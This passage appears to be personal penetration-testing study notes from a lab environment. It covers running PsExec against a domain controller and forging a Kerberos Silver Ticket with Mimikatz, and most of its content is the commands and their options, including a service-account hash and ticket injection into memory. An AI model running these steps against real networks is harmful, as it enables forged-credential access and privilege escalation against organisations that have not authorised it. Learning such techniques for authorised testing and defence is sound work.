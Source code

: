    ```powershell
   .\psexec \\dc01 cmd.exe
   
   # Options
   \\dc01	# Specifies the remote target
   cmd.exe	# Specifies the command to run on the target
   ```

### Pass the Ticket (Silver Ticket)

For obtaining a TGS ticket to use on remote systems, we craft a Silver Ticket using the NTLM of a service account, an SPN of a service, and customized group permissions.

1. Obtain Security Identifier for the Domain using the SID of the current user:

   ```powershell
   whoami /user
   ```

   The Domain SID is extracted by dropping the final section of the User SID:

   > Example:
   >
   > User SID =       S-1-5-21-4038953314-3014849035-1274281563-1103
   > Domain SID = S-1-5-21-4038953314-3014849035-1274281563

2. Use Mimikatz to purge any existing Kerberos tickets and verify the purge

   ```powershell
   kerberos::purge
   kerberos::list
   ```

3. Craft the silver ticket and load it into memory.  By default, the group memberships are set to local-admin and other highly privileged groups, including domain-admins.

   ```powershell
   kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-4038953314-3014849035-1274281563 /target:CorpWebServer.corp.com /service:HTTP /rc4:e2b475c11da2a0748290d87aa966c327 /ptt
   
   # Options
   /user:offsec 	# User requesting the TGS
   /domain:corp.com 	# Domain for the TGS
   /sid:S-1-5-21-4038953314-3014849035-1274281563 	# SID of the domain
   # Note: the SPN was HTTP/CorpWebServer.corp.com, so I'm not sure if it always breaks down to service/FQDN or not
   /target:CorpWebServer.corp.com 	# FQDN of the service
   /service:HTTP 	# Service type
   /rc4:e2b475c11da2a0748290d87aa966c327 	# Hash of service account for SPN
   /ptt	# Inject the ticket directly into memory
   ```

4. Verify the ticket exists in memory

   ```powershell
   kerberos::list
   ```
